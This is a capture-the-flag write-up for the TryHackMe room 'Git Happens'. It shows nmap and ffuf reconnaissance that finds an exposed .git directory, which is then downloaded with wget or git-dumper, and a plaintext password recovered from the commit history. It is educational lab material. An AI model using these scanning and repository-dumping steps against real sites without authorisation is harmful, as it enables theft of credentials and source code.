 ```bash
# PLATFORM          . THM
# CTF NAME          . Git Happens
# DESCRIPTION       . Boss wanted me to create a prototype, so here it is! We even used something called "version control" that made deploying this really easy!
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/githappens
```

```bash
sudo nmap -sSVC -T5 -p- 10.10.13.187 -oN git
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
| http-git: 
|   10.10.13.187:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Super Awesome Site!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- Although `nmap` is able to find the `/.git/` directory by itself, this can also be seen / confirmed by running `ffuf` against the target.

```
ffuf -u http://10.10.13.187/FUZZ -w /usr/share/wordlists/dirb/common.txt -t 100
```

```
.git/HEAD               [Status: 200, Size: 23, Words: 2, Lines: 2]
```

- We can get the entire `.git` directory by either using [git-dumper](https://github.com/arthaud/git-dumper) or by using 

```
wget -r http://ip/.git > website
```

- Then, a simpel `ls -la` will confirm the existence of the `.git` directory

- We can use `git diff` and `git log -p` to see the differences in each commit ; I found the latter to provide more useful information in this exact scenario.

- Scrolling down, we find the hash of the password and some obfuscated code. But I went all the way down to check for additional info, and it seems that there's no need to complicate ourselves trying to read the code or to try and find out the password.

- The first commits contain the password in plaintext. Go and grab it :) 

